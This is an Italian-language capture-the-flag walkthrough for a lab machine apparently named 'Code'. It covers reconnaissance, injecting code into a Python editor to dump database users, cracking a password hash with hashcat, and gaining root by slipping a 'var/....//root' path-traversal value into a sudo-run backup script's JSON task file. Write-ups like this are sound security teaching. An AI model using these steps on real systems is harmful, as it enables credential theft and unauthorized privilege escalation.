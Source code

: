 # 💻 Code CTF - Walkthrough

## 🔍 Ricognizione Iniziale

Ho eseguito una scansione con `nmap`:

```bash
nmap -sC -sV -A 10.10.11.62
```

Ho rilevato due porte aperte:

- **🛡️ Porta 22** → SSH  
- **⚙️ Porta 5000** → HTTP (servito da Gunicorn)

Accedendo al sito sulla porta 5000, ho trovato un'interfaccia web di un **Python code editor**. Ho provato una code injection base, ma ho ricevuto il messaggio:

```
Use of restricted keywords is not allowed
```

---

## 🔬 Esplorazione dell'Editor Python

Utilizzando il comando:

```python
print(globals())
```

Ho ottenuto un elenco delle variabili e moduli caricati. Tra questi ho individuato un oggetto `db`, possibile istanza di un database.

Ho verificato con:

```python
print(dir(db))
```

Confermata la presenza del database, ho eseguito il dump degli utenti con:

```python
for user in User.query.all():
    print(user.__dict__)
```

✅ Ho scoperto un utente chiamato **martin** con la password hashata.

---

## 🔑 Cracking della Password

Ho salvato l'hash e l'ho crackato usando `hashcat`:

```bash
hashcat -m 0 -a 0 hash.txt rockyou.txt
```

✅ Password trovata! Ho poi effettuato l'accesso via SSH:

```bash
ssh martin@10.10.11.62
```

Tuttavia, la **user flag** non era nella home directory.

---

## 🧍‍♂️ Privilege Escalation a app-program

Ho notato la presenza di un altro utente: **app-program**, ma non avevo i permessi per accedere alla sua home.

Ho controllato i privilegi sudo con:

```bash
sudo -l
```

Ho scoperto che potevo eseguire uno script di **backup** come `app-program`:

```bash
User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

### 🔍 Analisi del Backup

Il backup utilizza un file JSON come input. Accedendo alla cartella dei backup, ho trovato un archivio `.tar`:

```bash
scp martin@10.10.11.62:backups/code_home_app-production_app_2024_August.tar.bz2
tar -xvjf code_home_app-production_app_2024_August.tar.bz2
```

✅ All’interno ho trovato la **user flag**!

---

## 🚀 Privilege Escalation a Root

Il file task.json per il backup accetta solo cartelle sotto `/var` o `/home`. Per accedere a `/root`, ho usato un path malformato:

```
var/....//root
```

Questo ha aggirato il filtro che bloccava i `../`.

Ho modificato task.json, rieseguito il backup:

```bash
sudo /usr/bin/backy.sh task.json
```

e scaricato l’archivio risultante:

```bash
scp martin@10.10.11.62:/backups/code_home_app-production_2025_April.tar.bz2 .
tar -xvjf code_home_app-production_2025_April.tar.bz2
```

✅ All’interno ho trovato la **root flag**!

---

## 🎯 Conclusione

CTF **Code** completata con successo! 🧩

- Accesso ottenuto tramite code injection nel Python editor
- Dump degli utenti dal DB e crack della password
- Escalation tramite script di backup e manipolazione JSON
- Flag utente e root acquisite! 🏁